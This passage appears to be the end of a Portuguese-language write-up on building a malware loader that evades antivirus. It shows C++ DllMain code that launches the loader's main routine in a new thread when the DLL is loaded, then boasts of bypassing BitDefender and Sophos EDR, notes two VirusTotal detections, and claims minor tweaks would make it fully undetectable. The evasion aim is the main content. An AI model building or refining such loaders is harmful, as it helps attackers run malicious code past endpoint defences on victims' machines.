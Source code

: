 ```cpp
DWORD WINAPI DoMagic(LPVOID lpParameter)
{
    main();
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved
)
{
    HANDLE threadHandle;

    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:

        threadHandle = CreateThread(NULL, 0, DoMagic, NULL, 0, NULL);
        CloseHandle(threadHandle);
        break;

    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }

    return TRUE;
}
```
## Resultado

Bom, como eu já esperava, não foi detectado e conseguimos também contornar com sucesso o `BitDefender`.

![](https://telegra.ph/file/08dcd21d5f28e63acde85.gif)

---
### VirusTotal
O resultado do loader em DLL contra o `VirusTotal` é baixo apenas 2 detecções. Caso quiséssemos torná-lo 100% indetectável, precisaríamos apenas fazer algumas pequenas modificações, nada que causaria dor de cabeça.

![](https://telegra.ph/file/d6d55cd067feab250a5af.gif)

## Sophos EDR
Conseguimos contornar também o [Sophos EDR](https://www.sophos.com/pt-br/products/endpoint-antivirus/edr) nos dois formatos Dll,EXE. Eu fiquei impressionado porque mais tarde tentei baixar o Python e não consegui, pois foi detectado como vírus. Depois tentei baixar o Discord e também foi detectado como vírus hahaha:
